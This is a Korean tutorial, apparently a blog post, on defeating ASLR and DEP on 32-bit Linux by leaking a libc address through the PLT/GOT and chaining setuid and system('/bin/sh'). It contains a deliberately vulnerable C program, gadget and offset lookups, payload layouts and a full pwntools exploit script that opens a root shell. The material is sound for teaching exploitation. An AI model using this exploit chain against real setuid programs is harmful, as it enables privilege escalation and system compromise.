








저번 글에서는 ASLR이 비활성화된 환경에서 ret2libc 기법과 권한상승을 위한 ROP 개념을 다뤘었습니다.

하지만 현대적 시스템에서는 ASLR 이 기본적으로 활성화 되어있어 다음 실행 때 라이브러리의 주소를 정확히 "**예측**"하기는 어렵습니다. 물론 32비트에서 조건에 따라 브루트포스가 가능하긴 합니다.

그래서 이번 글에서는 동적 링킹 메커니즘을 이용해 libc leak 을 일으켜 ASLR/DEP 가 활성화 되어있는 환경에서도 exploit 을 성공시키는 방법에 대해 알아보겠습니다.

한가지 팁은 gdb 는 편리한 디버깅을 위해 ASLR 비활성화가 기본이라 실제 환경과 똑같이 만들려면 따로 커멘드를 쳐야 합니다.

```shell
gdb> set disable-randomization off
```

이번 예제에선 `vuln()` 내부에서 `write()` 와 `read()` 를 사용한다고 가정하고 `buf` 에서 오버플로가 발생한다고 가정해보겠습니다.

```c
/*
$ gcc -m32 -fno-stack-protector -mpreferred-stack-boundary=2 -no-pie 
$ cat /proc/sys/kernel/randomize_va_space # 2
Kernel: 4.19.0-6-amd64 x86_64 | gcc: 8.3.0
Checksec: Partial RELRO | No canary found | NX enabled | No PIE
*/
#include <stdio.h>
#include <unistd.h>

void vuln() {
    char buf[32];
    write(1, "", 0);
    read(0, buf, 128);
}

int main() {
    vuln();
    return 0;
}
```

저번과는 달리 ASLR 이 걸려있기 때문에 라이브러리 주소를 ret 에 다이렉트로 쓰는 방식은 통하지 않습니다.

그럼 어떻게 해야 할까요? 일단 동적 링킹의 메커니즘에 대해 알아야 합니다.

동적 링킹은 lazy binding 을 수행하기 때문에 PLT 와 GOT 영역이 존재합니다.

PLT 는 첫 호출 시 `_dl_runtime_resolve` 를 호출해 실제 함수 주소를 GOT 에 써넣고, 이후부터는 GOT 에 저장된 주소로 바로 점프하는 역할을 합니다.

현재 ASLR 은 걸려있지만 PIE 가 비활성화된 상태이므로 PLT, GOT 를 포함한 바이너리 자체의 주소는 고정입니다.

그러니 `write()` 로 특정 함수의 GOT 에 담긴 주소를 leak 하는것이 가능합니다.

GOT 에 담긴 주소가 첫 호출 이후에 어떻게 변하는지 한번 보겠습니다. hexview 에서 하이라이팅 된 부분이 `write@got.plt` 입니다.





제가 따로 사진을 찍진 못했지만, `write@plt` 첫 호출 이전엔 resolver(`write@plt+6`) 의 주소를 가르키던 `write@got.plt` 가 호출 이후엔 libc 의 실제 함수 주소를 가집니다.

이번 예제에선 `read()`, `write()` 를 사용하니까 `write(1, write@got.plt, 4)` 로 `write()` 의 실제 주소를 출력하게 만들면 됩니다.





`write@plt` 는 `0x080483A0` 에, `write@got.plt` 는 `0X0804A018` 에 위치해 있네요.

cdecl 호출 규약에 따라 caller 가 스택을 정리해야 하니 pop 이 인자 갯수 만큼 필요합니다. 현재 인자가 3개 넘어가니 `pop; pop; pop; ret` 가젯이 필요합니다.

```shell
andrew@ubuntu:~/fun/tech/rop$ rp -f ./a.out -r 3 | grep "pop esi"
0x08048579: pop esi ; pop edi ; pop ebp ; ret  ;  (1 found)
```

이제 첫번째 페이로드를 작성해 보겠습니다.

```plaintext
+--------+-------+---------------------------+
| offset | stack |         payload           |
+--------+-------+---------------------------+
|     00 | buf   | DUMMY                     |
|     32 | ebp   | DUMMY                     |
|     36 | ret   | write@plt (0x080483A0)    |
|     40 |       | pppr (0x08048579)         |
|     44 | arg1  | 0x01 (stdout)             |
|     48 | arg2  | write@got (0X0804A018)    |
|     52 | arg3  | 0x04                      |
+--------+-------+---------------------------+
```



leak 이 잘되네요. `write()` 의 실제 주소는 `0xf7688b70` 입니다.

ASLR 은 라이브러리를 랜덤한 주소에 매핑하지만 라이브러리 내부의 함수들 간의 오프셋은 항상 동일합니다. 그러니 libc base 를 계산하면 원하는 함수를 호출할 수 있습니다.



`write()` 의 실제 주소와 libc 의 .text 영역간의 오프셋을 계산하면 libc base 주소가 나옵니다.

저는 권한 상승된 쉘 획득을 원하니까 `system()` 과 `setuid()` 의 오프셋을 얻어보겠습니다.

```shell
(gdb) x/x 0x804a018
0x804a018:      0xf7666b70
(gdb) p/x 0xf7666b70 - 0xf75a8750
$1 = 0xbe420
(gdb) p/x system - 0xf75a8750
$2 = 0x23650
(gdb) p/x setuid - 0xf75a8750
$3 = 0x99b90
(gdb)
```

leak 된 주소로부터 libc base 를 구했고 `system()` 과 `setuid()` 의 오프셋을 구했습니다.



이제 필요한 정보는 어느정도 모았습니다.

익스플로잇을 작성해보겠습니다. 이번 예제에서 사용한 `read()` `write()` 는 바이너리 데이터를 다룰 때도 사용하니까 저번처럼 `gets()` 를 사용한 null 우회가 필요 없습니다.

저번 글과 중복되는 설명은 생략하겠습니다. 주석에 설명을 해놨으니 익스 읽으실때 참고하시면 됩니다.

```python
#!/usr/bin/env python
from pwn import *

context.log_level = 'debug'

write_plt = 0x080483A0
read_plt = 0x08048370
vuln = 0x08049176
write_got = 0X0804A018

pppr = 0x08048579
pr = 0x0804901e

# libc 오프셋
write_offset = 0x11f500
setuid_offset = 0x10b420
system_offset = 0x53cd0
binsh_offset = 0x1cae79

if args.REMOTE:
    p = remote('localhost', 9999)
else:
    p = process('./a.out')

# write@got leak 이후 vuln() 재호출
payload = b'a' * 40
payload += p32(write_plt)
payload += p32(pppr)
payload += p32(1)         # fd
payload += p32(write_got) # buf
payload += p32(4)         # count
payload += p32(vuln)

p.send(payload)

# leak 된 주소 읽기
write_leaked = u32(p.recv(4))
log.info("write@got: " + hexdump(write_leaked))

# 오프셋 계산
libc_base = write_leaked - write_offset
setuid_addr = libc_base + setuid_offset
system_addr = libc_base + system_offset
binsh_addr = libc_base + binsh_offset

log.info("text: " + hexdump(libc_base))
log.info("setuid@got: " + hexdump(setuid_addr))
log.info("system@got: " + hexdump(system_addr))
log.info("/bin/sh: " + hexdump(binsh_addr))

# 재호출된 vuln() 에서 ret를 다시한번 덮어서 권한상승 + 쉘 획득
payload2 = b'B' * 40
payload2 += p32(setuid_addr)
payload2 += p32(pr)
payload2 += p32(0)
payload2 += p32(system_addr)
payload2 += b'aaaa' 
payload2 += p32(binsh_addr)

p.send(payload2)

p.interactive()
```



성공했습니다~

여담으로 제가 개인적으로 애용하는 방법인데 익스 하다가 안되고 터질땐 socat 과 strace 를 활용하면 원격 환경 재현도 되고 원인을 빨리 찾는데 도움이 됩니다.

```shell
$ socat TCP-LISTEN:9999,reuseaddr,fork EXEC:"strace -f ./a.out"
```

이렇게 해주시면 대회에서 제공하는 nc 느낌도 나고 프로세스가 호출하는 시스템콜을 직접적으로 볼 수 있고 어디서 터지는지도 볼수있습니다.

근데 힙문제는 glibc 작동 메커니즘을 잘 알아야 하는거라 이걸론 찾기 어렵습니다.

읽어주셔서 감사합니다.